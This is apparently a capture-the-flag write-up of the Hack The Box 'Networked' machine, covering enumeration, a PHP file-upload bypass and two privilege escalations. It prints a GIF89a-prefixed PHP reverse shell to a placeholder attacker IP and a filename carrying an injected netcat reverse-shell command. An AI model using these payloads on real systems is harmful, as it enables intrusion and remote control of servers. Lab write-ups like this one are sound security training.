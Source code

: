 # HTB Networked Writeup

<code>#mimebypass</code> <code>#ifcfg</code>

## Reconnaissance

`nmap -sC -sV -p- 10.10.10.146`

```
Nmap scan report for 10.10.10.146
Host is up (0.078s latency).
Not shown: 65390 filtered tcp ports (no-response), 142 filtered tcp ports (host-unreach)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.26 seconds
```

## Enumeration

### Port 80 - HTTP

- Port 80 is hosting a static webpage with the following text:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-06-12 at 9.27.08 PM.png" width=50% height=50%>

- Enumerating possible files/directories against the parent directory gives the following:

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.10.10.146/FUZZ  `

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-06-12 at 11.33.59 PM.png" width=50% height=50%>

- Navigating to these directories gives us a page with file upload capabilities and a tar archive names `backup.tar`

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-06-12 at 11.39.19 PM.png" width=50% height=50%>

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-06-12 at 11.38.52 PM.png" width=50% height=50%>

- Extracting the archive provides `php` files that are hosted on the web server:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-06-12 at 11.40.36 PM.png" width=50% height=50%>

## Exploitation

- Looking within the source code files, there are three file upload validation methods being used:

	1. `check_file_type()`  &  `file_mime_type()`: checks mime type of the uploaded file, must return a value of a image format
	2. `filesize()`: uploaded file must be less than 60,000 bytes
	3. File extension must end with `.jpg, .png, .gif, .jpeg`

- To bypass the mime type validation, adding `GIF89a;` to the first line of a shell code. Bypassing the other methods can be achieved through changing the file extension and ensuring the file does not exceed 60,000 bytes.
```
GIF89a;
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER IP>/<PORT> 0>&1'");
?>
```

- Uploading the file gives us the following response:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-07-12 at 10.07.52 AM.png" width=50% height=50%>

- Opening a netcat listener to the specified port and navigating to the photo gallery gives us a shell as the `apache` user:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-07-12 at 10.54.14 AM.png" width=50% height=50%>

## Privilege Escalation to `guly`

- Two interesting files that the user, `apache`, has read access to in `guly` home directory are `check_attack.php` and `crontab.guly`. 

-  The `check_attack.php` script scans each file within the `uploads` directory for a valid IPv4 address for a filename. If the filename is not valid, the script removes and mails the `guly` user information about the file. 

```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

- This script is ran every 3 minutes using crontab, as specified in the `crontab.guly` file.
	`*/3 * * * * php /home/guly/check_attack.php`

- The method a file is removed using the `exec` function includes the `$value` variable, which is the filename(s) included in the `uploads` directory. This can be used to inject and run a command by including a semicolon in the front of the filename to obtain a shell as `guly`:
	`touch ;nc <ATTACKER IP> <PORT> -c bash`

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-07-12 at 2.50.21 PM.png" width=50% height=50%>

## Privilege Escalation to `root`

- The `guly` user can run sudo with the following commands:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-07-12 at 2.56.40 PM.png" width=50% height=50%>

- The `changename.sh` script outputs a script from `network-scripts` that has a privilege escalation vulnerability
	- [Vulmon Exploit](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

- Following the documented vulnerability, we are able to escalate our privileges by adding a space and a command to be executed after the value for the `interface NAME` field of the script.

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-07-12 at 3.27.38 PM.png" width=50% height=50%>
